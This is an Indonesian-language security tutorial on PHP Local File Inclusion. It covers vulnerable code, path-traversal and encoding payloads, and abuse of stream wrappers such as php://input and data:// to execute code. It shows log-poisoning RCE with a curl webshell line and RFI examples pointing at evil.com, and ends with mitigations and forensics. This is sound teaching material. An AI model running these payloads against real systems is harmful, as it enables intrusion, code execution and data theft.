


# Local File Inclusion (LFI): Definisi, Eksploitasi, dan Mitigasi

 **Local File Inclusion (LFI)** adalah kerentanan web dimana aplikasi memasukkan file lokal berdasarkan input pengguna yang tidak tervalidasi. LFI dapat menyebabkan bocornya informasi sensitif (mis. `/etc/passwd`, log server) dan dalam kasus lebih parah dapat berujung pada eksekusi kode di server. Serangan LFI erat kaitannya dengan *Directory Traversal* (path traversal) dan berbeda dari *Remote File Inclusion* (RFI). Dalam modul ini kita akan membahas definisi LFI, pola kode rentan, metode eksploitasi (dengan contoh payload), penggunaan PHP stream wrappers, rantai eksploitasi menuju RCE, metode deteksi, teknik bypass/filter, praktik mitigasi aman, serta petunjuk untuk forensik dan studi kasus. Setiap bagian dilengkapi contoh kode/HTTP, diagram alur, tabel perbandingan, dan referensi prioritas dari sumber resmi.

## Perbedaan LFI, Path Traversal, dan RFI

**Local File Inclusion (LFI)** adalah kerentanan di mana aplikasi web “mengikutsertakan” (include) file lokal berdasarkan input pengguna yang tidak disaring dengan benar. Misalnya, kode PHP berikut rentan LFI:

```php
<?php
  $page = $_GET['page'];         // input tidak tervalidasi
  include("pages/".$page);
?>
```

Jika attacker mengirim `?page=../../../../../etc/passwd`, maka aplikasi akan memasukkan file `/etc/passwd` sebagai bagian output. LFI dapat membuat aplikasi mengeksekusi atau memaparkan konten file lokal (mis. script berbahaya yang diupload). Akibatnya, informasi sensitif (password, konfigurasi) atau bahkan Remote Code Execution (RCE) bisa terjadi bila digabungkan dengan teknik lain.

**Directory Traversal (Path Traversal)** adalah teknik manipulasi jalur file (biasanya dengan `../`) untuk membaca file di luar direktori yang dimaksud. Contoh sederhananya: `../../etc/passwd`. Path Traversal *tidak selalu* memerlukan fungsi include; bisa terjadi pada mekanisme *read file* sederhana. Misalnya, endpoint unduh file `download?file=report.pdf` tanpa validasi dapat disalahgunakan menjadi `download?file=../../../etc/passwd`. Ini memungkinkan “membaca” file di sistem tanpa memasukkannya sebagai kode PHP. Dalam praktik, LFI dan path traversal sering tumpang-tindih: perbedaan utamanya adalah LFI melibatkan fungsi include/require dalam kode, sedangkan traversal sekadar membaca data file. 

**Remote File Inclusion (RFI)** mirip LFI, tetapi yang dimasukkan adalah file remote (mis. dari URL eksternal). RFI hanya berlaku jika konfigurasi PHP mengizinkan `allow_url_include=On` (ini dinonaktifkan sejak PHP 5.2.0 secara default). Misalnya: `?page=http://evil.com/shell.txt`. RFI lebih jarang ditemui karena pengaturan default aman, tapi jika ada dapat langsung mengeksekusi kode remote tanpa trik lanjutan. Tabel berikut merangkum perbedaan utama:

| Jenis Serangan       | Sumber File            | Contoh Payload                       | Butuh `allow_url_include`? | Efek Utama                             |
|----------------------|------------------------|--------------------------------------|---------------------------|----------------------------------------|
| **LFI (Local)**      | File lokal di server   | `?file=../../etc/passwd`            | Tidak                     | Baca kode/isi file lokal, mungkin RCE  |
| **Path Traversal**   | File lokal di server   | `?file=../../etc/passwd`            | N/A                       | Hanya baca konten file (tanpa kode)    |
| **RFI (Remote)**     | File dari URL eksternal | `?file=http://evil.com/shell.php`   | Ya (On)                   | Eksekusi kode remote (RCE langsung)    |

> **Perbandingan:** LFI memanfaatkan fungsi *include* (menjalankan/menampilkan file lokal). Path traversal semata-mata membaca file dengan manipulasi jalur. RFI mengikutsertakan file dari sumber eksternal. Definisi ini selaras dengan literatur teknis.

## Kode Rentan dan Fungsi Sink Umum

Kerentanan LFI muncul bila aplikasi **memasukkan file berdasarkan input pengguna** tanpa validasi. Contoh pola kode PHP yang rentan:

```php
<?php
  $file = $_GET['page'];
  include($file);             // Sumber utama LFI
?>
```

Beberapa pola kode rentan lainnya:

- **Include/Require dinamis**: `include($_GET['file']);`, `require_once($_POST['page']);`  
- **File API dinamis**: `file_get_contents($_GET['path'])`, `fopen($_POST['file'], 'r')`, `readfile($_REQUEST['file']);`  
- **Template atau server-side rendering**: memasukkan path dari parameter ke sistem templating tanpa pengecekan.

Fungsi *sink* rentan di PHP (dan bahasa lain serupa) meliputi **`include`**, **`require`**, **`include_once`**, **`require_once`**. Selain itu, fungsi seperti `file_get_contents()`, `readfile()`, `fopen()`, `system()` (jika memuat file via php wrappers) juga bisa menjadi titik masuk LFI jika dioperasikan dengan data input pengguna. Misalnya, perhatikan code review: cari alur di mana `$_GET`, `$_POST`, cookie, atau header diumpankan langsung ke fungsi tersebut tanpa filter.

Contoh kode rentan (PHP):

```php
<?php
  // Contoh pola rentan:
  if(isset($_GET['file'])) {
      include("pages/".$_GET['file']);  // LFI terjadi di sini jika input tak difilter
  } else {
      include("pages/home.php");
  }
?>
```

Dalam modul selanjutnya, kita asumsikan target adalah aplikasi PHP (OS Linux). Jika target Windows, atur separasi jalur (`\`) sesuai, tapi teknik dasar serupa.

## Metode Eksploitasi LFI

Setelah menemukan titik masuk LFI, attacker akan menggunakan teknik-teknik untuk mengakses file sensitif. Berikut metode eksploitasi umum disertai contoh payload (anggap parameter `?page=`):

- **Path Traversal (../)** – Menambahkan `../` beruntun untuk naik direktori ke root. Contoh payload:
  - `?page=../../../../../etc/passwd` – menampilkan isi `/etc/passwd`.  
  - Jika direktori penyimpanan file misalnya `/var/www/html/pages`, maka cukup `"../../etc/passwd"`.  

- **Alternate Encodings** – Meloloskan filter atau WAF dengan pengkodean:
  - *URL-encode*: `%2e%2e%2f` untuk `../`. Contoh: `?page=%2e%2e%2f%2e%2e%2fetc/passwd`.
  - *Double encode*: `%252e%252e%252f` (berguna jika filter decodes sekali).  
  - *UTF-8 encoding*: e.g. `%c0%ae%c0%ae/%c0%af` (bergantung environment, `\xc0\xaf` bisa dilihat seperti `.`).
  - *Case variation (Windows)*: `WiNdOwS` vs `windows`.  

- **Multiple Separator / Bypass Filter** – Manipulasi format path:
  - `....//....//etc/passwd` (titik ganda). Ada aplikasi yang hanya memblok `../` satu kali, ini melewatinya.  
  - Gabungan slash/backslash: `..\\..\\windows\\win.ini` pada Windows, atau encoded `%5c` (backslash) untuk mengelabui filter linier (lihat ClawGRC Windows payloads).  

- **Absolute Path** – Langsung berikan path absolut jika relative traversal diblok: misal `?page=/etc/passwd` (jika filter hanya memeriksa `../`).  

- **Null Byte Injection** – Karakter null (`%00`) mengakhiri string di PHP < 5.3.4. Contoh: `?page=../../etc/passwd%00`. Efeknya menghapus ekstensi yang disisip (mis. aplikasi menambahkan `.php`). Catatan: teknik ini **Hanya berlaku pada PHP < 5.3.4**, versi modern sudah aman.  

- **Truncation Attack** – Menyisipkan path yang sangat panjang atau karakter `.` ganda sehingga sistem memotong sisanya. Misalnya membuat input panjang >4096 byte untuk mencegah pengecekan string penuh.  

- **Double Extension / Extension Confusion** – Jika ada validasi ekstensi, upload shell sebagai `shell.php.jpg` lalu acak validasi; namun saat include, server mungkin melihat `.php` karena beberapa setting server. Teknik semacam ini melibatkan _file upload_ dan masuk ranah LFI selanjutnya (dibahas di bagian chaining).  

Berikut tabel ringkasan beberapa payload:

| Teknik             | Contoh Payload (URL)                                  | Keterangan                |
|--------------------|-------------------------------------------------------|---------------------------|
| Basic traversal    | `?page=../../etc/passwd`                              | Baca `/etc/passwd`        |
| URL encoding       | `?page=%2e%2e%2f%2e%2e%2fetc/passwd`                  | `../` encoded             |
| Double URL-encode  | `?page=%252e%252e%252f%252e%252e%252fetc/passwd`      | decode dua kali           |
| UTF-8 encoding     | `?page=..%c0%af..%c0%afet%etc%2fpasswd`              | PHP & IIS bypass (varies) |
| Alternate separator| `?page=....//....//etc/passwd`                       | bypass filter sederhana  |
| Null byte          | `?page=/etc/passwd%00`                                | terminator, PHP <5.3.4    |
| Windows path       | `?page=..\..\Windows\win.ini`                        | Baca `win.ini` di Win   |
| Absolute path      | `?page=/etc/shadow`                                   | Cek hak akses langsung    |

Payload di atas menunjukkan cara melewati filter atau membebaskan karakter `../`. Setiap payload harus diuji terhadap respon server untuk mengetahui apakah file berhasil terbaca (lihat Deteksi). Gunakan payload bertahap: mulai dengan satu `..`, lalu dua, hingga target (biasanya `/etc/passwd` di Linux). Jika respons normal (200) dan menampilkan data file, berarti LFI terbuka.

## Teknik LFI Lanjutan: PHP Stream Wrappers

PHP menyediakan beberapa *stream wrapper* (“wrapper”) yang memungkinkan format sumber file yang lebih luas. Wrappers ini bisa disalahgunakan di LFI. Contoh wrapper utama:

- **php://filter** – Memungkinkan menerapkan filter pada stream. Sangat berguna untuk membaca file sebagai teks (misal base64). Contoh:  
  `?page=php://filter/convert.base64-encode/resource=index.php`  
  Permintaan ini akan *include* file `index.php`, tapi alih-alih dieksekusi, isinya di-*encode base64* oleh filter. Respon berisi teks Base64 yang jika didecode mengungkap kode sumber. Contoh lain tanpa encode: `php://filter/resource=/etc/passwd` akan mengembalikan isi `/etc/passwd` biasa (tanpa eksekusi).  

- **php://input** – Stream baca untuk data mentah dari *request body*. Serangan tipikal: kirim payload PHP di body POST lalu *include* `php://input`. Misalnya:  

  ```http
  POST /vuln.php?page=php://input HTTP/1.1
  Host: target
  Content-Type: text/plain

  <?php system('id'); ?>
  ```
  Jika file input disertakan, server akan mengeksekusi kode `system('id')`. Ini secara efektif mengubah LFI menjadi RCE tanpa file log.

- **data://** – Wrapper baru yang meng-encapsulate data inline. Format dasar: `data://text/plain,PD9waHAg...`. Bagian setelah koma adalah data (bisa base64). Misal:  
  `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjdXJsIC15Jyk7ID8+`  
  (`PD9waHAgc3lzdGVtKCdjdXJsIC15Jyk7ID8+` adalah `<?php system('curl -y'); ?>`). Jika server meng-*include* URI ini, payload PHP akan dijalankan.

- **php://expect** – Untuk mengeksekusi perintah lewat sistem operasi (menggunakan ekstensi expect). Contoh: `?page=expect://ls`. Namun, wrapper ini **tidak diaktifkan secara default** dan jarang dipakai karena modul expect tidak selalu tersedia.

- **zip://** – Wrapper ZIP, memungkinkan pengaksesan isi file .zip. Teknik: upload ZIP berisi PHP shell, kemudian gunakan: `?page=zip://path/to/shell.zip#shell.php` untuk “memasukkan” file `shell.php` dari archive. Server akan mengekstrak dan mengeksekusi `shell.php`. Hal ini disebut *Zip wrapper LFI*.

- **file://** – Secara eksplisit menunjuk file lokal. Misalnya `?page=file:///etc/passwd` (sama efeknya dengan LFI biasa jika `file_get_contents` atau `readfile` digunakan). Tidak selalu diperlukan prefix `file://`.

Tabel ringkas beberapa wrapper dan kegunaannya:

| Wrapper            | Contoh Pemakaian                              | Efek                         |
|--------------------|-----------------------------------------------|------------------------------|
| `php://filter`     | `php://filter/convert.base64-encode/resource=index.php` | Baca file sebagai teks Base64 |
| `php://input`      | `php://input` (sisip payload PHP di body POST) | Eksekusi kode dari body      |
| `data://`          | `data://text/plain;base64,PD9waHAg...`         | Eksekusi payload berbasis data inline |
| `zip://`           | `zip://uploads/shell.zip#shell.php`            | Ekstrak & jalankan di-include |
| `expect://`        | `expect://id` (jika aktif)                     | Jalankan perintah OS         |

Studi kasus: Misalnya DVWA (web lab populer) memiliki modul LFI; menggunakan php://filter akan mengembalikan output Base64. Gunakan helper Base64 untuk decode. Pengujian wrapper harus menyesuaikan: `php://input` memerlukan metode POST, sementara `data://` masuk via URL langsung. Semua teknik di atas bergantung pada konfigurasi PHP (misalnya `allow_url_include` untuk wrapper `http://` biasa, atau apakah wrapper tertentu diaktifkan).

## Rantai Eksploitasi: LFI → RCE

LFI sendirian hanya membaca file. Namun, seringkali attacker menggabungkannya dengan teknik lain untuk mencapai **Remote Code Execution (RCE)**. Contoh rantai eksploitasinya:

1. **Log Poisoning**: 
   - **Step 1:** Kirim request agar server mencatat payload PHP di log (misal header User-Agent atau URL yang tak ada). Contoh:
   
    ```bash
     curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" http://target/
    ```

     Server (Apache/nginx) menyimpan baris log berisi `<?php system($_GET['cmd']); ?>`.  
   - **Step 2:** Gunakan LFI untuk meng-*include* file log. Misal:
     `?page=../../../../var/log/apache2/access.log&cmd=id`.  
     Jika berhasil, server akan mengeksekusi kode di log, menampilkan hasil `id` pada output. Contoh permintaan:
   
```http
     GET /index.php?page=../../../../var/log/apache2/access.log&cmd=id HTTP/1.1
     Host: target
```

     Dalam kasus sukses, respons akan memuat output dari perintah `id`. Dengan begitu, attacker kini bisa mengeksekusi perintah sistem. (`$_GET['cmd']` yang dikirim dijalankan).  
   Teknik ini dilaporkan berhasil pada banyak kasus LFI (mis. modul TimThumb, atau CVE WordPress tertentu). 

2. **Session Poisoning**:
   - Jika aplikasi PHP menggunakan file-based session (default), attacker dapat menyimpan kode PHP ke dalam session (mis. dengan mengatur cookie sesi dan param lain) lalu meng-*include* file sesi tersebut. Contoh sederhana: kunjungi `page.php?file=../../../../var/lib/php/sessions/sess_<sid>` di mana `<sid>` session aktif Anda setelah mengirimkan payload PHP ke server melalui halaman lain.

3. **Upload + Include**:
   - Jika ada kerentanan upload, attacker mengunggah file PHP berisi webshell ke server (misalnya di direktori `uploads/evil.php`). Lalu memanfaatkan LFI untuk menambahkan file tersebut: `?page=../../uploads/evil.php`. File yang diupload dimasukkan dan dijalankan oleh server. Hal ini memadukan LFI dengan kerentanan upload file.

4. **PHP Wrapper Execution**:
   - Gunakan *wrapper* yang memungkinkan eksekusi. Contoh:
     - `php://input` (dijelaskan di atas).
     - `data://` (dengan payload PHP).
     - `expect://` (jika tersedia).  
   Misalnya, endpoint LFI menerima POST:

   ```http
   POST /vuln.php?page=php://input HTTP/1.1
   Content-Type: text/plain

   <?php system('id'); ?>
   ```
   
   Jika sukses, output `id` akan muncul.  
   Atau: `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+` (data:// wrapper).

6. **/proc/self/environ**:
   - `?page=../../proc/self/environ` akan memasukkan file environment. Jika Anda telah “menyuntikkan” code lewat header (mis. User-Agent), payload tersebut juga tercatat di environ. Include `/proc/self/environ` dapat menjalankan kode dari variabel environment (seperti header `User-Agent`). Contoh serupa log poisoning.

**Diagram Alur Eksploitasi (Log Poisoning):**



![Contoh Alur LFI ke RCE via Log Poisoning]  
*Mermaid di atas menggambarkan alur serangan: penyisipan kode PHP di log server, lalu di-*include* melalui LFI sehingga kode tersebut dijalankan.* (Gambar ini ilustrasi umum, bukan tangkapan asli.)

Setiap teknik di atas harus diuji dengan hati-hati di lingkungan laboratorium karena berbahaya. Contoh HTTP permintaan di atas hanyalah ilustrasi. Jangan jalankan pada sistem tanpa izin. 

## Deteksi dan Analisis LFI

Mendeteksi LFI memerlukan pengujian interaktif (black-box). Pendekatan umum:

1. **Identifikasi Titik Masuk**: Cari parameter atau area input yang menerima *nama file*, misalnya `page`, `file`, `template`, `lang`, dll. Parameter ini sering terletak di URL atau POST.

2. **Payload Uji Dasar**: Kirim payload sederhana, misal `../../../etc/passwd`. Amati respon:
   - Jika mendapat **HTTP 200 OK** dengan teks mengenali (contoh `root:x:0:0:root`), kemungkinan besar LFI aktif.
   - Jika **404/403/500** atau konten kosong, periksa error dan lanjutkan.

3. **Tanda Respon**: Cari petunjuk berikut:
   - Munculnya konten file sistem: string khas (`root:`, hasil `ID`).
   - *Error PHP* (tidak dimatikan) seperti *failed to open stream* bisa mengonfirmasi path.
   - Perubahan ukuran respon (lebih panjang) vs respons normal.
   - Error terkait sintaks (jika payload tidak valid).
   - Waktu respons (jika menggunakan payload berat? LFI biasa tidak pakai time-based, kecuali ada kode).

4. **Variasi Payload**: Jika payload dasar gagal:
   - Coba encoding (URL, double-encode). Misal `%2e%2e%2f` untuk bypass filter statis.
   - Coba jalur berbeda (mis. tambahkan `/` di akhir, `../../../../etc/passwd/.` dll).
   - Gunakan teknik *alternate separators* (`....//` atau `..\\`).
   - Jika server Windows, coba `..\..\windows\system32\drivers\etc\hosts`.
   - Pakai pembacaan wrappers (`php://filter`, dll) dan lihat apakah respons berbeda.

5. **Automasi dan Tools**:
   - **Manual**: Gunakan browser atau `curl` untuk uji. Pantau head-request dan body. Tools seperti Burp Suite dengan Intruder juga sering dipakai.
   - **Scanner**: ffuf, dotdotpwn, DirBuster, atau tools khusus LFI (LFISuite, fimap) untuk menemukan parameter dan payload yang valid.
   - **Periksa Logs/Akses Respon**: Jika punya akses pen-testing, periksa apakah log muncul dengan karakter tak biasa setelah mengirim payload uji.

6. **Lingkungan Aman**: Uji di lab (DVWA, Mutillidae, WebGoat, PortSwigger Academy, HTB) untuk memahami perilaku. Jangan menguji pada sistem live tanpa izin. Gunakan kata-kata pencarian respons dan pastikan perintah yang dicoba tidak merusak. Misalnya, bukannya `system('rm -rf /')`, gunakan `system('id')` atau print constants.

**Flow Deteksi (Skema):**



Tahapan deteksi ini terus diulang dengan berbagai payload sampai ditemukan jejak LFI atau dicurigai ada filtering. Setiap langkah pengujian dokumentasikan hasilnya. 

## Bypass dan Evasion

Serangan LFI sering dihadang filter atau WAF. Teknik bypass meliputi:

- **Encoding**: Seperti disebutkan, *URL encoding*, *double encoding*, *UTF-8* encoding tiap karakter `.` atau `/` (mis. `\xc0\xaf`), atau *Unicode normalization*. Pastikan variasi encoding diuji jika payload simpel di-blok.
- **Case Variation**: Di Windows, path bisa case-insensitive. Kontrol pengganti huruf bisa menipu filter (mis. `WiNdOwS`).
- **Alternate Separators**: Banyak filter hanya blok `../` satu kali. Gunakan `....//` atau kombinasi `../..//` untuk lewat.
- **Truncation**: Aplikasi bisa membuang string yang terlalu panjang. Menyisip tanda seperti `.` ganda atau `%00` (kadang double-encoding `%2500`) memotong sisa. Contoh: `etc/passwd%2500` akan menjadi `%00` setelah decode lalu string berakhir.
- **Path Canonicalization**: Memanfaatkan perbedaan internal OS. Contohnya aplikasi mungkin memeriksa `..` tapi melewatkan `%2e`. Lakukan encode bagian-bagian kecil: `..%2f..%2f`.
- **WAF dan Input Normalization**: Jika ada WAF, coba *bypass WAF* dengan menambahi karakter tak terlihat (mis. tab, spasi urlencoded `%09` dalam path) atau request chunked. Juga cek apakah aplikasi menggunakan realpath() atau canonicalization — kadang dapat diterobos dengan `..\\` di Linux (beberapa fungsi menganggap `\` sebagai valid char bukan slash).

Intinya, asalkan ada filter blacklist sederhana, attacker biasanya dapat menemukan cara untuk melewati dengan memvariasikan payload. Oleh karena itu, **do not trust user input**—implementasi harus dengan whitelist, bukan memperbaiki blacklist.

## Mitigasi dan Praktik Secure Coding

Untuk mencegah LFI, beberapa praktik terbaik:

- **Gunakan Allowlist (Whitelisting)**: Jangan pakai input langsung sebagai nama file. Jika aplikasi hanya perlu memuat file tertentu (seperti halaman statis, template), gunakan array/enum whitelist. Contoh:  

  ```php
  $pages = ['home'=>'home.php', 'about'=>'about.php'];
  $page = $_GET['page'] ?? 'home';
  if(array_key_exists($page, $pages)){
      include(__DIR__.'/pages/'.$pages[$page]);
  } else {
      http_response_code(404);
  }
  ```  
  
  Ini memastikan hanya file yang diizinkan (kata kunci mapping) yang dapat diakses.

- **Realpath & Validasi Path**: Jika input berupa path relatif, gunakan `realpath()` dan periksa apakah hasilnya berada di direktori yang diinginkan. Misal:

  ```php
  $path = realpath(__DIR__.'/pages/'.$_GET['file']);
  if(strpos($path, __DIR__.'/pages/') === 0){
      include($path);
  } else {
      exit('Invalid file');
  }
  ```
  
  Dengan cara ini, format `../` dalam input akan dihapus secara formal, dan Anda memastikan file tetap dalam folder `pages`.

- **Batasi File System**: Konfigurasikan server/PHP:
  - Set `open_basedir` sehingga PHP hanya bisa mengakses direktori tertentu.
  - Non-aktifkan fitur berisiko: `allow_url_include = Off` (default) agar RFI terblokir, dan `allow_url_fopen = Off` jika tidak butuh membuka URL.
  - Non-aktifkan wrapper yang tidak perlu (misal `expect://`, `phar://`) di php.ini.

- **Privileges Minimal**: Jalankan proses web server dengan user yang punya hak akses terbatas (mis. tidak root). Pastikan direktori penting (konfigurasi, `/etc`, home user) tidak dapat dibaca oleh user web. Gunakan *chroot* atau *container* untuk isolasi.

- **Validasi Input**: Selain whitelist, lakukan validasi tipe dan panjang input. Jangan hanya mengandalkan filter karakter; filter char dapat terlewati (seperti `filter_var` dengan `FILTER_SANITIZE_STRING` bisa gagal menghadapi encoding canggih).

- **Nonaktifkan Include Otomatis**: Jika include file user-supplied tidak perlu, hindari sama sekali. Gunakan mekanisme konten dinamis lain (mis. template engine dengan variable konten, bukan include file).

Ringkasan mitigasi utama:

- Gunakan **whitelist** nama file.
- Normalisasi path (realpath) dan validasi direktori.
- Kurangi hak akses (user web hanya baca untuk file yang perlu).
- Matikan wrapper/add-ons tak perlu (disable `allow_url_include`, dll).
- Terapkan pemindaian keamanan (DAST, SAST) secara periodik.

## Forensik dan Dampak

Jika dicurigai ada eksploitasi LFI, tim forensik dapat melakukan hal-hal berikut:

- **Periksa Log Web Server**: Cari entri permintaan dengan pola `../` atau `php://`. Periksa User-Agent atau parameter yang mencurigakan seperti `../../`. Jika log poisoning terjadi, cari `<?php` di log (User-Agent).
- **Audit File Sistem**: Cari file tidak biasa di direktori upload atau session. Misalnya, file `.php` yang diupload diam-diam, atau folder session yang berubah besar ukurannya.
- **Deteksi Exfiltrasi**: LFI sendiri biasanya in-band (membaca keluar lewat browser). Namun, jika attacker menggunakan filter convert (base64), Anda mungkin melihat transaksi panjang base64 yang aneh pada respon. Periksa respons situs untuk output biner atau base64 decode.
- **Time/Size Analysis**: Meskipun jarang, cek apakah permintaan tertentu butuh waktu lama (mungkin membaca file besar) atau ada anomali ukuran konten. Bisa jadi tanda mencoba include file besar atau remote.
- **Ceritakan Insiden**: Pastikan data sensitif (database, SSH keys) disimpan aman. Jika `passwd` atau `.env` terbaca, rotasi kredensial.

LFI sendiri dapat menimbulkan dampak serius: bocornya kredensial, konten situs (source code), serta pivot ke sistem lain. Catat seluruh bukti (respon server, log permintaan) untuk analisis lebih lanjut.

## Latihan & Referensi

**Latihan yang Disarankan:**  
- PortSwigger Web Academy – modul *File Inclusion* dan *Directory Traversal*.  
- DVWA atau bWAPP – atur keamanan rendah, praktek payload (php://filter, log poisoning).  
- HackTheBox/Web Challenges – cari nama “LFI” atau “Insecure file upload” (contoh: HTB “Gallery” atau “Escape”).  
- OWASP Juice Shop – beberapa flow mungkin terkait, atur exploitable kategori.  
- Gunakan tools: [LFISuite](https://github.com/D35m0nd142/LFISuite), [fimap](https://github.com/kurobeats/fimap), ffuf dengan wordlist **LFI-Jhaddix.txt** (SecLists).

**Referensi Utama:**  
- AppSec Brief “Local File Inclusion in PHP” (2026) – sumber komprehensif terkini.  
- Invicti / Acunetix “What is LFI” – definisi dan contoh LFI serta Directory Traversal.  
- Brightsec/Imperva “Local File Inclusion” – penjelasan dampak LFI dan kaitannya dengan Top 10 OWASP.  
- Claw GRC “Performing Directory Traversal Testing” – panduan pengujian praktis (teknik payload dan definisi).  
- PHP Manual “php:// Wrappers” – daftar official wrapper PHP.  
- Aptive “Local File Inclusion (LFI)” – contoh wrapper dan teknik (expect, filter, zip, environ).  
- PayloadsAllTheThings File Inclusion (GitHub) – kumpulan payload/teknik (khususnya null byte, encoding).

Dokumen ini disusun untuk memberi pemahaman mendalam (deep dive) tentang LFI. Pastikan setiap aspek dicoba di laboratorium aman, terapkan best practice di lingkungan nyata, dan terus update dengan teknik baru (mis. chaining filter lanjutan) karena serangan terus berevolusi. 

**Checklist Pengujian LFI (untuk Penetration Tester):**
- [ ] Identifikasi parameter berisiko (file, path, template, dll).  
- [ ] Uji payload dasar `../` dan variannya (respons, log).  
- [ ] Lakukan bypass filter (encoding, `%00`, `....//`, dll).  
- [ ] Coba PHP wrappers (php://filter, input, data, zip).  
- [ ] Jika terbukti LFI, uji escalasi ke RCE (log poisoning, data injection, session).  
- [ ] Dokumentasikan setiap langkah & hasil (tangkapan layar, curl, respons).  

Dengan pendekatan di atas, LFI dapat terdeteksi dan ditangani secara tuntas, mengurangi risiko pelanggaran keamanan data dan sistem.